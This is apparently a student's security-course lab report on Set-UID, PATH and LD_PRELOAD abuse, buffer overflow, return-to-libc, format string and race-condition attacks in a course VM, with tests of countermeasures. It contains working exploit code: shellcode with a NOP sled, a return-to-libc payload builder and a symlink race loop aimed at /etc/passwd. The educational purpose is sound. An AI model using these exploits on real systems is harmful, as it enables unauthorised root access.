


# Report of CS4293 Assignment 2

[TOC]

--------------------

## 2 Environment Variable and Set-UID Program

### 2.1 Manipulating environment variables

* Result of running `printenv` and `printenv PWD` 

  * `printenv`

    ```
    [03/07/20]seed@VM:~/.../assignment2$ printenv
    
    XDG_VTNR=7
    
    XDG_SESSION_ID=c1
    
    XDG_GREETER_DATA_DIR=/var/lib/lightdm-data/seed
    
    CLUTTER_IM_MODULE=xim
    
    SESSION=ubuntu
    
    ANDROID_HOME=/home/seed/android/android-sdk-linux
    
    GPG_AGENT_INFO=/home/seed/.gnupg/S.gpg-agent:0:1
    
    TERM=xterm-256color
    
    VTE_VERSION=4205
    
    XDG_MENU_PREFIX=gnome-
    
    SHELL=/bin/bash
    
    DERBY_HOME=/usr/lib/jvm/java-8-oracle/db
    
    QT_LINUX_ACCESSIBILITY_ALWAYS_ON=1
    
    LD_PRELOAD=/home/seed/lib/boost/libboost_program_options.so.1.64.0:/home/seed/lib/boost/libboost_filesystem.so.1.64.0:/home/seed/lib/boost/libboost_system.so.1.64.0
    
    WINDOWID=25165834
    
    UPSTART_SESSION=unix:abstract=/com/ubuntu/upstart-session/1000/1453
    
    GNOME_KEYRING_CONTROL=
    
    GTK_MODULES=gail:atk-bridge:unity-gtk-module
    
    USER=seed
    
    LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
    
    QT_ACCESSIBILITY=1
    
    LD_LIBRARY_PATH=/home/seed/source/boost_1_64_0/stage/lib:/home/seed/source/boost_1_64_0/stage/lib:
    
    XDG_SESSION_PATH=/org/freedesktop/DisplayManager/Session0
    
    XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat0
    
    SSH_AUTH_SOCK=/run/user/1000/keyring/ssh
    
    DEFAULTS_PATH=/usr/share/gconf/ubuntu.default.path
    
    SESSION_MANAGER=local/VM:@/tmp/.ICE-unix/1767,unix/VM:/tmp/.ICE-unix/1767
    
    XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/usr/share/upstart/xdg:/etc/xdg
    
    DESKTOP_SESSION=ubuntu
    
    PATH=/home/seed/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:.:/snap/bin:/usr/lib/jvm/java-8-oracle/bin:/usr/lib/jvm/java-8-oracle/db/bin:/usr/lib/jvm/java-8-oracle/jre/bin:/home/seed/android/android-sdk-linux/tools:/home/seed/android/android-sdk-linux/platform-tools:/home/seed/android/android-ndk/android-ndk-r8d:/home/seed/.local/bin
    
    QT_IM_MODULE=ibus
    
    QT_QPA_PLATFORMTHEME=appmenu-qt5
    
    XDG_SESSION_TYPE=x11
    
    PWD=/home/seed/Desktop/CS4293/assignment/Experiment/assignment2
    
    JOB=dbus
    
    XMODIFIERS=@im=ibus
    
    JAVA_HOME=/usr/lib/jvm/java-8-oracle
    
    GNOME_KEYRING_PID=
    
    LANG=en_US.UTF-8
    
    GDM_LANG=en_US
    
    MANDATORY_PATH=/usr/share/gconf/ubuntu.mandatory.path
    
    COMPIZ_CONFIG_PROFILE=ubuntu
    
    IM_CONFIG_PHASE=1
    
    GDMSESSION=ubuntu
    
    SESSIONTYPE=gnome-session
    
    GTK2_MODULES=overlay-scrollbar
    
    SHLVL=1
    
    HOME=/home/seed
    
    XDG_SEAT=seat0
    
    LANGUAGE=en_US
    
    LIBGL_ALWAYS_SOFTWARE=1
    
    GNOME_DESKTOP_SESSION_ID=this-is-deprecated
    
    XDG_SESSION_DESKTOP=ubuntu
    
    LOGNAME=seed
    
    DBUS_SESSION_BUS_ADDRESS=unix:abstract=/tmp/dbus-tme2LOGQ1A
    
    J2SDKDIR=/usr/lib/jvm/java-8-oracle
    
    XDG_DATA_DIRS=/usr/share/ubuntu:/usr/share/gnome:/usr/local/share/:/usr/share/:/var/lib/snapd/desktop
    
    QT4_IM_MODULE=xim
    
    LESSOPEN=| /usr/bin/lesspipe %s
    
    INSTANCE=
    
    XDG_RUNTIME_DIR=/run/user/1000
    
    DISPLAY=:0
    
    XDG_CURRENT_DESKTOP=Unity
    
    GTK_IM_MODULE=ibus
    
    J2REDIR=/usr/lib/jvm/java-8-oracle/jre
    
    LESSCLOSE=/usr/bin/lesspipe %s %s
    
    XAUTHORITY=/home/seed/.Xauthority
    
    _=/usr/bin/printenv
    
    OLDPWD=/home/seed/Desktop/CS4293/assignment/Experiment
    
    
    ```

  * `printenv PWD`

    ```
    [03/07/20]seed@VM:~/.../assignment2$ printenv PWD
    /home/seed/Desktop/CS4293/assignment/Experiment/assignment2
    ```

* Result of setting environment variable by using `export`, and unsetting environment variable by using `unset`

  

### 2.2 Environment variable and `Set-UID` Programs

#### Step 1&2: Write the program and compile


#### Step 3: Change the variables

* Back up `PATH`, `LD_LIBRARY_PATH`, and `ANY_NAME`

  ```
  PATH=/home/seed/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:.:/snap/bin:/usr/lib/jvm/java-8-oracle/bin:/usr/lib/jvm/java-8-oracle/db/bin:/usr/lib/jvm/java-8-oracle/jre/bin:/home/seed/android/android-sdk-linux/tools:/home/seed/android/android-sdk-linux/platform-tools:/home/seed/android/android-ndk/android-ndk-r8d:/home/seed/.local/bin
  
  LD_LIBRARY_PATH = /home/seed/source/boost_1_64_0/stage/lib:/home/seed/source/boost_1_64_0/stage/lib:
  
  ```

* Change the variable: As observed, the `PATH` variable contains some information used to display date. After we changing the variable, the date cannot be displayed.

  

* Run the `Set-UID` program `./foo`

  ```
  XDG_VTNR=7
  XDG_SESSION_ID=c1
  XDG_GREETER_DATA_DIR=/var/lib/lightdm-data/seed
  CLUTTER_IM_MODULE=xim
  SESSION=ubuntu
  ANDROID_HOME=/home/seed/android/android-sdk-linux
  GPG_AGENT_INFO=/home/seed/.gnupg/S.gpg-agent:0:1
  TERM=xterm-256color
  VTE_VERSION=4205
  XDG_MENU_PREFIX=gnome-
  SHELL=/bin/bash
  DERBY_HOME=/usr/lib/jvm/java-8-oracle/db
  QT_LINUX_ACCESSIBILITY_ALWAYS_ON=1
  WINDOWID=25165834
  OLDPWD=/home/seed/Desktop/CS4293/assignment/Experiment/assignment2
  UPSTART_SESSION=unix:abstract=/com/ubuntu/upstart-session/1000/1453
  GNOME_KEYRING_CONTROL=
  GTK_MODULES=gail:atk-bridge:unity-gtk-module
  USER=seed
  LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
  QT_ACCESSIBILITY=1
  XDG_SESSION_PATH=/org/freedesktop/DisplayManager/Session0
  XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat0
  SSH_AUTH_SOCK=/run/user/1000/keyring/ssh
  DEFAULTS_PATH=/usr/share/gconf/ubuntu.default.path
  SESSION_MANAGER=local/VM:@/tmp/.ICE-unix/1767,unix/VM:/tmp/.ICE-unix/1767
  XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/usr/share/upstart/xdg:/etc/xdg
  DESKTOP_SESSION=ubuntu
  PATH=./
  QT_IM_MODULE=ibus
  QT_QPA_PLATFORMTHEME=appmenu-qt5
  XDG_SESSION_TYPE=x11
  PWD=/home/seed/Desktop/CS4293/assignment/Experiment/assignment2/task2.2
  JOB=dbus
  XMODIFIERS=@im=ibus
  JAVA_HOME=/usr/lib/jvm/java-8-oracle
  GNOME_KEYRING_PID=
  LANG=en_US.UTF-8
  GDM_LANG=en_US
  MANDATORY_PATH=/usr/share/gconf/ubuntu.mandatory.path
  COMPIZ_CONFIG_PROFILE=ubuntu
  IM_CONFIG_PHASE=1
  GDMSESSION=ubuntu
  TEST=test
  SESSIONTYPE=gnome-session
  GTK2_MODULES=overlay-scrollbar
  SHLVL=1
  HOME=/home/seed
  XDG_SEAT=seat0
  LANGUAGE=en_US
  LIBGL_ALWAYS_SOFTWARE=1
  GNOME_DESKTOP_SESSION_ID=this-is-deprecated
  XDG_SESSION_DESKTOP=ubuntu
  LOGNAME=seed
  DBUS_SESSION_BUS_ADDRESS=unix:abstract=/tmp/dbus-tme2LOGQ1A
  J2SDKDIR=/usr/lib/jvm/java-8-oracle
  XDG_DATA_DIRS=/usr/share/ubuntu:/usr/share/gnome:/usr/local/share/:/usr/share/:/var/lib/snapd/desktop
  QT4_IM_MODULE=xim
  LESSOPEN=| /usr/bin/lesspipe %s
  INSTANCE=
  XDG_RUNTIME_DIR=/run/user/1000
  DISPLAY=:0
  XDG_CURRENT_DESKTOP=Unity
  GTK_IM_MODULE=ibus
  J2REDIR=/usr/lib/jvm/java-8-oracle/jre
  LESSCLOSE=/usr/bin/lesspipe %s %s
  XAUTHORITY=/home/seed/.Xauthority
  _=./foo
  ```

  * We cannot find the `LD_LIBRARY_PATH`. As a comparison, we recover the `PATH` variable and use `env` command. The behaviors are different. 

    

* **Observation**: As the result of the program to print the environment variables, we can find the variable `TEST`, and `PATH`, but we cannot find the variable `LD_LIBRARY_PATH`. The reason might be the `Ubuntu` has limited the privilege of `SET-UID` program, even if it has already changed to `root` process. The reason to do this might be to prevent the situation that unknown resources are imported easily.

### 2.3 The `PATH` Environment variable and `Set-UID` Programs

* `myls.c` program

  ```
  #include <stdio.h>
  int main()
  {
      system("ls");
      return 0;
  }
  ```

* **Observation**: 

  * Compile

  

  * Change owner to root

  

  * Export to `PATH`

    

* **Answer**

  * I can let this `Set-UID` program run my code instead of `/bin/ls` 

  * The code is running with the root privilege according to the `ls -al` command as well as the next example `ls.c` 

    

* `ls.c` program

  ```c
  #include <stdio.h>
  int main()
  {
      printf("\nThis is my ls program\n");
      printf("\nMy real uid is: %d\n", getuid());
      printf("\nMy effective uid is: %d\n", geteuid());
      return 0;
  }
  ```

* **Observation**: It is not run in root privilege by default. However, after giving the `root` privilege to the executable `ls`, the real `uid `is not changed, while the effective `uid` is changed to 0 (i.e. the code is running with the root privilege)

  * Compile and try `ls.c`

    

    

  * Link to the `PATH` variable, `ls` command is replaced: 

    

* **Explanation**: According to the man page and the [online resource](<https://unixpapa.com/incnote/setuid.html>), The effective `uid` represents the privilege of the process, while the real `uid` is the actual `uid` of this process. After exporting the `PATH`, the `ls` command is replaced by the self-defined program. 

  

### 2.4 The `LD_PRELOAD` environment variable and `Set-UID` Programs

#### Step 1: Change the linker

* Back up `LD_PRELOAD`

  ```
  LD_PRELOAD=/home/seed/lib/boost/libboost_program_options.so.1.64.0:/home/seed/lib/boost/libboost_filesystem.so.1.64.0:/home/seed/lib/boost/libboost_system.so.1.64.0
  ```

* We can find that the behavior of `sleep` function is changed

  

#### Step 2: Run in different modes

* Run as regular program and normal user: use user defined version

  

* Run as `root ` program and normal user: use system defined version

  

* Run as `root` program and `root` account: use user defined version

  

* Run as `user1` program and `user1` account: use user defined version

  

#### Step 3: Reason and Experiment

* **Reason**: The reason of difference is the behavior of `sleep` function is changed to self-defined program only when we use the account that owning the executable `myprog`.  **The environment variable is not considered when the account executing the file is not the owner.** 

* **Experiment**: If we change the owner of `myprog` to `user1`, and execute it in `seed` and `root` account after exporting the `LD_PRELOAD` variable respectively. If the behavior remains the `sleep` function in C-library, the assumption is correct. The process is shown below: 

  

* **Explain**: The child process can only access the `LD_*` environment variables of the current user account. Because even if we changed the environment variable in the owner’s account, we still cannot replace the `sleep` function as shown bellow. 

  

  

### 2.5 Invoking external programs using `system()` versus `execve()`

#### Step 1: Compile and attack

* Command line to compile the program and make it a `set-uid` program

  

  

* **Answer**: 

  * By assumption, we do not know the password for `sudo`. Therefore, we cannot change the function `system` or `execve` to our self-defined function. 
  * Besides, the program uses the absolute path `/bin/cat`, we cannot redefine `cat` 
  * However, we can append a command at the end of the `cat` command

* Steps: 

  * First, we set up a not writable file `test.txt` with mode `755` in the folder `test` with mode `744`, both of them belongs to `root` :

    

    

  * Open a new terminal use the account `seed`: 

    * As shown below, we can neither access into the folder nor use `cat` command to view the content. However, the `Set-UID` program `show` can be used to view the content: 

      

    * However, if we use the malicious input as following, we can delete the file which cannot be deleted originally as shown below. 

      


#### Step 2: Change to `execve`

* **Observation**: If we replace the `system` function by the `execve` function, using previous method to attack **does not work**: 

  

* **Explanation**: The different result is because of the different way to accept the parameter for `system` and `execve`. `system `will accept a whole command and run it in a new shell.  Therefore, if we append some malicious command at the end of the previous command, it can be executed since it is a `Set-UID` program. However, `execve` takes the command and the operator separately. It makes sure that only one command is executed. 

### 2.6 Capability Leaking

* Create `/etc/zzz`:

  

* `Set-UID`: 

  

* Execute the program as a normal user:

  

* **Observation**: The `/etc/zzz` file is modified.

* **Explanation**: 

  * If we print the `uid` and effective `uid` of parent and child process, we can find that all the `uid` are changed to `1000`

    

  * For some capabilities given to the process (opened file in this case), if we do not clean up them, they will also be kept for the parent process as well as the child process even if we have changed the `uid` of the process. 

  * If we change the code to close the file before `setuid`: 

    * Code

      ```CQL
      #include <stdio.h>
      #include <stdlib.h>
      #include <fcntl.h>
      
      int main(){
      	int fd;
      	/* Assume that /etc/zzz is an important system file,
      	* and it is owned by root with permission 0644.
      	* Before running this program, you should creat
      	* the file /etc/zzz first. */
      	fd = open("/etc/zzz", O_RDWR | O_APPEND);
      	if (fd == -1) {
      		printf("Cannot open /etc/zzz\n");
      		exit(0);
      	}
      
      	/* Simulate the tasks conducted by the program */
      	sleep(1);
      	close (fd);
      	/* After the task, the root privileges are no longer needed,
      	it's time to relinquish the root privileges permanently. */
      	setuid(getuid()); /* getuid() returns the real uid */
      	
      	if (fork()) { /* In the parent process */
      		printf("Parent's uid: %d\n", getuid());
      		printf("Parent's effective uid: %d\n", geteuid());
      		// write (fd, "Malicious Data\n", 15);
      		close (fd);
      		exit(0);
      	} else { /* in the child process */
      		/* Now, assume that the child process is compromised, malicious
      		attackers have injected the following statements
      		into this process */
      		printf("Child's uid: %d\n", getuid());
      		printf("Child's effective uid: %d\n", geteuid());
      		fd = open("/etc/zzz", O_RDWR | O_APPEND);
      		write (fd, "Malicious Data\n", 15);
      		close (fd);
      	}
      	return 0;
      }
      ```

    * Result: The file is not changed. 

      

----------------------

## 3 Buffer Overflow Vulnerability

### 3.2 Running Shellcode

* **Observation**: The shell is invoked. By observation, the shell can be recursively invoked. However, some command cannot be used and some keyboard mappings are changed. 

  

### 3.4 Exploiting the Vulnerability

#### Set Up

* Compile the `stack.c` (**Important to add the option `-g`**)

  

#### Task A: Distance Between Buffer Base Address and Return Address

* Set breakpoint

  

* Print `buffer` and `ebp` address, calculate the distance

  

  * The distance is `0x29 + 4 = 45(decimal)`

#### Task B: Address of Malicious Code

* Set the break point to be `main`, stop at the line run `fread`

  

* Find the address of malicious code

  

* Write the **code** according to the instruction in the tutorial

  ```c
  /* exploit.c */
  /* A program that creates a file containing code for launching shell*/
  #include <stdlib.h>
  #include <stdio.h>
  #include <string.h>
  
  char shellcode[]=
  	"\x31\xc0" /* xorl %eax,%eax */
  	"\x50" /* pushl %eax */
  	"\x68""//sh" /* pushl $0x68732f2f */
  	"\x68""/bin" /* pushl $0x6e69622f */
  	"\x89\xe3" /* movl %esp,%ebx */
  	"\x50" /* pushl %eax */
  	"\x53" /* pushl %ebx */
  	"\x89\xe1" /* movl %esp,%ecx */
  	"\x99" /* cdq */
  	"\xb0\x0b" /* movb $0x0b,%al */
  	"\xcd\x80" /* int $0x80 */
  ;
  
  int main(int argc, char **argv)
  {
  	char buffer[517];
  	FILE *badfile;
  	/* Initialize buffer with 0x90 (NOP instruction) */
  	memset(&buffer, 0x90, 517);
  	/* You need to fill the buffer with appropriate contents here */
  	*((long *) (buffer + (41+4))) = 0xbfffeae7+ 0x80;
  	memcpy(buffer + sizeof(buffer) - sizeof(shellcode), shellcode, sizeof(shellcode));
  	/* Save the contents to the file "badfile" */
  	badfile = fopen("./badfile", "w");
  	fwrite(buffer, 517, 1, badfile);
  	fclose(badfile);
  	return 0;
  }
  ```

* Result:

  

* Explanation: 

  * Firstly, we found the distance of the buffer and the `$ebp` is `41` and we know that `ret=$ebp+4`, therefore, we know that the return address can be represented as `*(buffer+45)` 
  * Secondly, we found that the address of `str` is `0xbfffeae7`
  * Therefore, by setting the return address to the one of the entry in the front of `str`, we can change the flow of the program to `nop` as initialized in `exploit.c`. Then it will do nothing until reach the shellcode stored at the end of `str`. 
  * The shellcode will be executed and extend the root privilege. 

### 3.5 Defeating dash’s Countermeasure

* **Observation**: Countermeasure in `dash`

  * Comment `line 11`: The initialized shell does not have root privilege

    

  * Uncomment `line 11`: The initialized shell has root privilege

    

* **Result**: Use the new shellcode in **task 3.4**

  * Do not use the new shellcode: Cannot get the root privilege

    

  * Use the new shellcode: Can get the root privilege

    

* **Explanation**: The `dash` countermeasure can detect the case when `euid` is different with `uid`, and prevent it. However, by setting actual `uid` to `root` when the program is having the `root` privilege, we can defeat this countermeasure. Therefore, with the part of assembly code to set `uid` to `root` written to the malicious file, we can get the `root `privilege shell. 

### 3.6 Defeating Address Randomization

* Answer of the first **Report**

  * After turning on the Ubuntu’s address randomization, the same attack does not work. 

  * Problem: The problem is the return address may not be valid when we use address randomization. Even the address is valid, the order of the `shellcode` might be randomized. 

  * Why difficult: According to [Wikipedia](<https://en.wikipedia.org/wiki/Address_space_layout_randomization>), ASLR randomly arranges the [address space](https://en.wikipedia.org/wiki/Address_space) positions of key data areas of a [process](https://en.wikipedia.org/wiki/Process_(computer_science)), including the base of the [executable](https://en.wikipedia.org/wiki/Executable) and the positions of the [stack](https://en.wikipedia.org/wiki/Stack-based_memory_allocation), [heap](https://en.wikipedia.org/wiki/Dynamic_memory_allocation) and [libraries](https://en.wikipedia.org/wiki/Library_(computer_science)). Therefore, we may not that lucky to return to a valid address. 

    

* Answer of the second **Report**

  * **Observation**: By following the instruction, I successfully get `root` privilege shell after running `exploit` for `18720` times. 
  * **Explanation**: Since the address is to shift the memory slot instead of true randomization, we may still be lucky to find right return address and successfully run the `shellcode`. 

  

### 3.7 Stack Guard Protection

* Result: The `stack` program without stack protector can launch the attack, while the `stack_prot` with stack protector will have `stack smashing detected` error message

* Explanation: Stack guard will detect the change in the canary. Buffer overflow will overwrite the canary, therefore, the integrity of the stack is compromised, which will be detected by the stack guard.

  

### 3.8 Non-executable Stack Protection

* Answer of **report**:

  * **Observation**: Cannot get a shell. There is `segmentation fault` error message
  * **Explanation**: This scheme make the memory address allocated to the `str` not executable (since it is in the stack area), therefore the shellcode is difficult to be executed

  

----------------------------------

## 4 Return-to-libc Attack

### 4.3 Exploiting the Vulnerability [4 Marks]

* The result of `gdb` command

  

### 4.4 Putting the shell string in the memory [5 Marks]

* Export the environment variable

  

* Code

  ```c
  #include <stdio.h>
  
  int main(){
  	char* shell = getenv("MYSHELL");
  	if (shell) {
  		printf("%x\n", (unsigned int)shell);
  	}
  	return 0;
  }
  ```

* Result in the terminal

  

### 4.5 Exploiting the Vulnerability [6 Marks]

*  The code for `exploit.c`

  ```c
  /* exploit.c */
  
  #include <stdlib.h>
  #include <stdio.h>
  #include <string.h>
  
  int main(int argc, char **argv)
  {
  	char buf[250];
  	FILE *badfile;
  
  	badfile = fopen("./badfile", "w");
  
  	/* You need to decide the addresses and
  	the values for X, Y, Z. The order of the following
  	three statements does not imply the order of X, Y, Z.
  	Actually, we intentionally scrambled the order. */
  	*(long *) &buf[0x1e + 12] = 0xbffffe1c ; // "/bin/sh"
  	*(long *) &buf[0x1e + 4] = 0xb7e42da0 ; // system()
  	*(long *) &buf[0x1e + 8] = 0xb7e369d0 ; // exit()
  
  	fwrite(buf, sizeof(buf), 1, badfile);
  	fclose(badfile);
      return 0;
  }
  ```

* Result:

  

* How to decide the values for X, Y and Z

  * According to the tutorial, we should consider the change between the epilogue of `vul_func()` and the prologue of `system()`. Assume `n` is the address of the ebp of `vul_func()`, we should store address of system, address of `exit`, and the argument of `system` at `n+4`, `n+8`, and `n+12` respectively.

  * Firstly, we find the distance between `buffer` and `ebp`

    

    * The distance is `0x1e=30` 

  * Therefore, $X = 30+12=42， Y=30+4=34, Z=30+8=38$ 

* If we comment the step to set up `exit` address

  * Observation: The root shell can be launched, but segmentation fault will exist after exit from shell.

    

  * Explanation: If we don’t set the return address of `system ` function, it will return to some random memory location after the `system` function has been finished.

* If we change the length of the filename

  * Observation: The attack has been failed. The position of the buffer is not accessed accurately

    

  * Explanation: Since we save the string in the environment variable, and the filename is also part of the environment. If we change the length of the filename, the memory used by the filename variable will be larger. As a consequence, the address of the `MYSHELL` variable will be changed.

### 4.6 Address Randomization [3 Marks]

* Observation: I cannot get a shell. There will be segmentation fault. The address randomization do make the return-to-libc attack difficult.

  

* Explanation: As shown in the following experiment, the address of the environment variable has been randomly allocated. The address randomization will change the memory location including shared library and environment variable.

  

### 4.7 Stack Guard Protection [3 Marks]

* Observation: I cannot get a shell. Stack smashing will be detected. The Stack Guard
  protection make the return-to-libc attack difficult.

  

* Explanation: Stack guard provide integrity checking for the stack. The return-to-libc attack will change the return address and go through the canary, which will be detected by the stack guard.

----------------------

## 5 Format String Vulnerability

### 5.1 Crash the program [4 Marks]


### 5.2 Print out the secret[1] value [4 Marks]

* Find the address of `user_input`

  

* `secret[0]` as well as the heap address of `secret[1]`

  * As shown below, the addresses are `0x804b008=134524936` and `0x804b00c= 134524940` respectively

  

* Find out the position of the integer number `int_input`

  * We input the decimal value of heap address of `secret[1]`, and we find that it is the ninth `%x`

  

* Print the value of `secret[1]`

  

### 5.3 Modify the secret[1] value [5 Marks]

* Simply replace the `%s` by `%n`


### 5.4 Modify the secret[1] value to a pre-determined value, i.e., 80 in decimal [5 Marks]

* There are 8 `%` before the `%n`, and 80 characters in total, we set each `%` can print 10 characters (i.e. use `%9x`) 


-------------------

## 6 Race Condition Vulnerability

### 6.3 Choosing Our Target [5 Marks]

* I can log into the test account without typing a password. The root privilege is obtained. 


### 6.4 Launching the Race Condition Attack [4 Marks]

* Code of `attack.c`

  ```c
  #include <unistd.h>
  
  int main(){
  	while(1){
  		unlink("/tmp/XYZ");
  		symlink("/home/seed/Desktop/CS4293/assignment/Experiment/assignment2/task6/myfile", "/tmp/XYZ");
  		usleep(10000);
  		unlink("/tmp/XYZ");
  		symlink("/etc/passwd", "/tmp/XYZ");
  		usleep(10000);
  	}
  	return 0;
  }
  ```

* Result: Notice that we should run executable `attack` before the `attack.sh`

  

  

  

### 6.5 Countermeasure: Applying the Principle of Least Privilege [4 Marks]

* changed code for `vulp.c`

  ```c
  #include <stdio.h>
  #include <unistd.h>
  int main()
  {
  	char * fn = "/tmp/XYZ";
  	char buffer[60];
  	FILE *fp;
  	/* get user input */
  	seteuid(getuid());
  	scanf("%50s", buffer );
  	if(!access(fn, W_OK)){
  		fp = fopen(fn, "a+");
  		fwrite("\n", sizeof(char), 1, fp);
  		fwrite(buffer, sizeof(char), strlen(buffer), fp);
  		fclose(fp);
  	}
  	else printf("No permission \n");
  }
  
  ```

* Observation: Race condition attack does not work in five minutes. 

  

* Explanation: Originally, when opening the file, the vulnerable program has the root privilege, which is more than what is needed by the task. By setting the effective user id to the real user id before opening the file, we can check whether the user do have the right to use this file.

### 6.6 Countermeasure: Using Ubuntu’s Built-in Scheme [3 Marks]

* Observation: Race condition attack does not work in five minutes. 

  

* How does this protection scheme work?

  * This protection scheme makes sure that symbolic links inside a sticky world-writable can only be followed when the owner of the symlink matches either the follower or the directory owner. (The permission table is as following) Therefore, in this case, the `/tmp/XYZ` has follower and owner to be `root`, user cannot create symlink anymore. 

  

* What are the limitations of this scheme?

  * It is still vulnerable once the users can create symlink by using another setuid program (says by using buffer overflow)
  * This scheme is only applied to a world writable sticky directory


